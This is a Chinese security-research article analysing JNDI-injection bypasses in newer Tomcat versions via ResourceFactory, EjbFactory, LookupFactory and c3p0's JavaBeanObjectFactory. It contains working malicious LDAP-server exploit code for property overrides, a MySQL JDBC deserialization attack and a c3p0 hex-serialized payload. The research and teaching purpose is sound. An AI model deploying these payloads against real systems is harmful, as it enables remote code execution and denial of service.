# 高版本JNDI注入-高版本Tomcat利用方案-先知社区

> **来源**: https://xz.aliyun.com/news/16156  
> **文章ID**: 16156

---

## 前景提要

前面提到了在Tomcat下的`ObjectFactory`接口的实现类`BeanFactory`，在调用`getObjectInstance`方法的过程中，将会实例化目标class，并调用任意方法



上图为Tomcat 8.5.58版本下的`getObjectInstance`方法，加载Reference包裹的类，并对其进行实例化



后续则为获取`forceString`的内容

1. 将forceString的内容根据`,`进行分割
2. 通过匹配`61`也即是`=`，进行参数的传递
3. 最后通过反射调用方法



然而在高版本Tomcat中，移除了`forceString`进行任意方法调用的机制，下图为Tomcat 8.5.79版本下的`BeanFactory#getObjectInstance`方法，若在Reference中存在有`forceString`则抛出异常



后续学习Unam4师傅在补天白帽大会上的JNDI高版本绕过的新探索

## org.apache.naming.factory.FactoryBase

该类是个抽象类，同样是实现了`ObjectFactory`接口

瞅瞅这个抽象类的`getObjectInstance`方法的实现



相比于之前的ObjectFactory接口的实现类的`getObjectInstance`方法，这里存在有对Reference类型的判断

该抽象类存在有四个实现类



每种实现类能够处理不同类型的Reference

1. `EjbFactory : EjbRef`

   

1. `ResourceEnvFactory : ResourceEnvRef`

   

1. `ResourceFactory : ResourceRef`

   

1. `TransactionFactory:`

   

### org.apache.naming.factory.ResourceFactory

#### 流程分析

接着前面`getObjectInstance`方法的分析

若从LDAP服务端返回的Reference的类型为`ResourceRef`，将会由`ResourceFactory`类进行处理

1. 调用`ResourceFactory#getLinked`方法，这里是直接返回null值

   

1. 进入else语句，获取`Reference`对象的`factory`值

   1. 若服务端返回的Reference存在有`factory`这一key值，则将对应的value值进行类加载以及实例化操作

      

并在实例化之后调用实例化的对象的`getObjectInstance`方法进行解析



这里实现了factory的二次注入，在对`ObjectFactory`实现类进行了简单过滤的场景下可能会有用

例如：仅仅通过filter过滤掉服务端返回的Reference是否包含有恶意的Factory，或者是否在白名单Factory中，可以通过这种方式进行利用

1. 若不存在有`factory`这一key值，则进入else语句中，调用`ResourceFactory#getDefaultFactory`方法

   

```
1. 首先是判断LDAP服务端返回的Reference的目标类是否是`javax.sql.DataSource`， 如果是，则获取对应的系统属性值，若不存在则使用默认值`org.apache.tomcat.dbcp.dbcp2.BasicDataSourceFactory`，之后则是对获取的FactoryClassName进行类加载和实例化
```



后续则是调用实例化对象的`getObjectInstance`方法，默认也即是`org.apache.tomcat.dbcp.dbcp2.BasicDataSourceFactory#getObjectInstance`方法，造成了JDBC attack，同样使用这种方式能够实现二次JNDI注入

```
2. 之后就是判断是否是`javax.mail.Session`，这分支没啥可利用点
```

#### 实现方法

通过上面的分析，主要有两种攻击的实现方法

##### Way1

若服务端返回的Reference中存在有factory这一个key值，将会使用这个value值对应的工厂类进行重新调用它的`getObjectInstance`方法

这里的factory方法可以任意指定，这里我们指定factory为`org.apache.tomcat.jdbc.naming.GenericNamingResourcesFactory`进行系统属性的覆盖

```
// Server
    @Override
    public void sendResult(InMemoryInterceptedSearchResult result, String baseDN) {
        argsHandler(baseDN);
        generateHandler();

        System.out.println(this.getClass().getName() + "sendResult start.....");

        ResourceRef resourceRef = new ResourceRef("org.apache.commons.configuration2.SystemConfiguration", null, "", "", true,
                "org.apache.naming.factory.ResourceFactory", null);
        resourceRef.add(new StringRefAddr("factory", "org.apache.tomcat.jdbc.naming.GenericNamingResourcesFactory"));
        resourceRef.add(new StringRefAddr("systemProperties", HTTPServer.codeBase + "AttributionCovered.properties"));

        Entry entry = new Entry(baseDN);
        entry.addAttribute("javaClassName", "java.lang.Class");
        entry.addAttribute("javaSerializedData", GadgetUtils.serialize(resourceRef));
        try {
            result.sendSearchEntry(entry);
        } catch (LDAPException e) {
            throw new RuntimeException(e);
        }
        result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
    }

```

在运行LDAP服务端后，可模拟受害端：

```
// Client
    public static void main(String[] args) throws NamingException {
        System.out.println("start: com.sun.jndi.ldap.object.trustURLCodebase: " + System.getProperty("com.sun.jndi.ldap.object.trustURLCodebase"));


        String url = "ldap://127.0.0.1:1389/TomcatJNDI2otherFactory/Command";
        InitialContext context = new InitialContext();
        // trigger
        context.lookup(url);

        System.out.println("end: com.sun.jndi.ldap.object.trustURLCodebase: " + System.getProperty("com.sun.jndi.ldap.object.trustURLCodebase"));
    }

```




能够成功覆盖系统属性

##### Way2

这里同样存在有另外的利用方式，这里如没有factory键值，岂会调用调用`ResourceFactory#getDefaultFactory`方法，触发JDBC attack

```
// Server
    @Override
    public void sendResult(InMemoryInterceptedSearchResult result, String baseDN) {
        // parse args
        argsHandler(baseDN);
        // generateHandler
        generateHandler();

        ResourceRef resourceRef = new ResourceRef("javax.sql.DataSource", null, "", "", true,
                "org.apache.naming.factory.ResourceFactory", null);
        resourceRef.add(new StringRefAddr("driverClassName", "com.mysql.jdbc.Driver"));
        String JDBC_url = "jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections4_calc";
        resourceRef.add(new StringRefAddr("url", JDBC_url));
        resourceRef.add(new StringRefAddr("username", "yso_CommonsCollections4_calc"));
        resourceRef.add(new StringRefAddr("initialSize", "1"));

        Entry entry = new Entry(baseDN);
        entry.addAttribute("javaClassName", "java.lang.Class");
        entry.addAttribute("javaSerializedData", GadgetUtils.serialize(resourceRef));
        try {
            result.sendSearchEntry(entry);
        } catch (LDAPException e) {
            throw new RuntimeException(e);
        }
        result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
    }

```

### org.apache.naming.factory.EjbFactory

#### 流程分析

若LDAP服务端返回的Reference类型为`EjbRef`，则使用`EjbFactory`进行处理

1. 调用`getLinked`方法判断是否存在linked值

   



获取Reference对象的`link`对应的value值，并将该值传入到`lookup`方法中，这里也形成了JNDI的二次注入

1. 类似的若没有link对应的值，则调用`getDefaultFactory`方法

   

这里是调用了`org.apache.naming.factory.OpenEjbFactory#getObjectInstance`方法



同样能够形成二次JNDI注入

#### 利用方式

JNDI to JNDI的方式嵌套，能够造成无限的lookup相同的ldap服务，造成DOS

其余两个实现类不存在可利用的方式

## org.apache.naming.factory.LookupFactory

### 流程分析

`org.apache.naming.factory.LookupFactory`同样是`ObjectFactory`接口的实现类，接下来分析其`getObjectInstance`方法



还是那几套的流程

1. 从返回的Reference中获取factory的value值
2. 加载从Reference中得到的factory类
3. 实例化对应的factory类
4. 调用factory类的`getObjectInstance`方法

经过上述的流程，能够形成JNDI的二次注入

### 利用方式

同样的，使用`org.apache.naming.factory.LookupFactory`的利用方式同前面提到的`org.apache.naming.factory.ResourceFactory`Way1的利用方式相同，进去替换不同的Factory值

```
// Server
    @Override
    public void sendResult(InMemoryInterceptedSearchResult result, String baseDN) {
        argsHandler(baseDN);
        generateHandler();

        System.out.println(this.getClass().getName() + "sendResult start.....");

        // way1
//        ResourceRef ref = new ResourceRef("org.apache.commons.configuration2.SystemConfiguration", null, "", "", true,
//                "org.apache.naming.factory.ResourceFactory", null);
        //way2
        LookupRef ref = new LookupRef("org.apache.commons.configuration2.SystemConfiguration", "org.apache.naming.factory.LookupFactory", "", "");

        ref.add(new StringRefAddr("factory", "org.apache.tomcat.jdbc.naming.GenericNamingResourcesFactory"));
        ref.add(new StringRefAddr("systemProperties", HTTPServer.codeBase + "AttributionCovered.properties"));

        Entry entry = new Entry(baseDN);
        entry.addAttribute("javaClassName", "java.lang.Class");
        entry.addAttribute("javaSerializedData", GadgetUtils.serialize(ref));
        try {
            result.sendSearchEntry(entry);
        } catch (LDAPException e) {
            throw new RuntimeException(e);
        }
        result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
    }

```


## com.mchange.v2.naming.JavaBeanObjectFactory

> c3p0
>
> 同样存在该类的子类`C3P0JavaBeanObjectFactory`能够实现同样的作用

### 流程分析

同样的`com.mchange.v2.naming.JavaBeanObjectFactory`同样是实现了`ObjectFactory`接口，其`getObjectInstance`的实现如下：



1. 首先遍历服务端返回的Reference的所有内容，将键值对保存在propMap中
2. 使用`findBean`进行beanClass的处理

   

首先看前半段，他这里通过`getPropertyDescriptors`方法获取了bean class的所有的属性描述

其次，遍历每个property，判断其是否存在我们传递的Reference中，并从前面构建的`propertyMap`中取出对应的属性值

同时，获取了对应属性值的setter方法

**重点来了：**

如果Reference中存在有bean class属性值的赋值，同时存在有对应的setter方法，这里将会反射调用setter方法，造成了任意setter方法的执行，那么目标则是寻找一个有害的setter方法

### 利用方式

```
// Server
@Override
    public void sendResult(InMemoryInterceptedSearchResult result, String baseDN) {
        argsHandler(baseDN);
        generateHandler();

        System.out.println(this.getClass().getName() + "sendResult start.....");

        byte[] payloadBytes = new byte[0];
        try {
            payloadBytes = Files.readAllBytes(new File("./payload.ser").toPath());
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
        char[] hex = Hex.encodeHex(payloadBytes);
        String jndiPayload = "HexAsciiSerializedMap?" + new String(hex) + "?";

        ResourceRef resourceRef = new ResourceRef("com.mchange.v2.c3p0.WrapperConnectionPoolDataSource", null, "", "", true,
                "com.mchange.v2.naming.JavaBeanObjectFactory", null);
        resourceRef.add(new StringRefAddr("userOverridesAsString", jndiPayload));

        Entry entry = new Entry(baseDN);
        entry.addAttribute("javaClassName", "java.lang.Class");
        entry.addAttribute("javaSerializedData", GadgetUtils.serialize(resourceRef));
        try {
            result.sendSearchEntry(entry);
        } catch (LDAPException e) {
            throw new RuntimeException(e);
        }
        result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
    }

```

在c3p0中存在一条反序列化漏洞的链子

[C3P0反序列化漏洞 - N1Rvana's Blog](https://nlrvana.github.io/c3p0反序列化漏洞/#c3p0之hexbase攻击利用)

> 在`WarpperConnectionPoolDataSouce`类中，其能够反序列化一串十六进制的字符串，核心是在构造函数中调用了`C3P0ImplUtils.parseUserOverridesAsString()`方法进行了反序列化调用流程

其中在`setUserOverridesAsString`方法中同样存在有`parseUserOverridesAsString`方法的调用，将会对属性值`userOverridesAsString`进行反序列化









调用栈：

```
fromByteArray:124, SerializableUtils (com.mchange.v2.ser)
parseUserOverridesAsString:252, C3P0ImplUtils (com.mchange.v2.c3p0.impl)
vetoableChange:58, WrapperConnectionPoolDataSource$1 (com.mchange.v2.c3p0)
fireVetoableChange:383, VetoableChangeSupport (java.beans)
fireVetoableChange:276, VetoableChangeSupport (java.beans)
setUserOverridesAsString:416, WrapperConnectionPoolDataSourceBase (com.mchange.v2.c3p0.impl)
invoke0:-1, NativeMethodAccessorImpl (jdk.internal.reflect)
invoke:77, NativeMethodAccessorImpl (jdk.internal.reflect)
invoke:43, DelegatingMethodAccessorImpl (jdk.internal.reflect)
invoke:568, Method (java.lang.reflect)
findBean:146, JavaBeanObjectFactory (com.mchange.v2.naming)
getObjectInstance:72, JavaBeanObjectFactory (com.mchange.v2.naming)
getObjectInstance:193, DirectoryManager (javax.naming.spi)
c_lookup:1114, LdapCtx (com.sun.jndi.ldap)

```

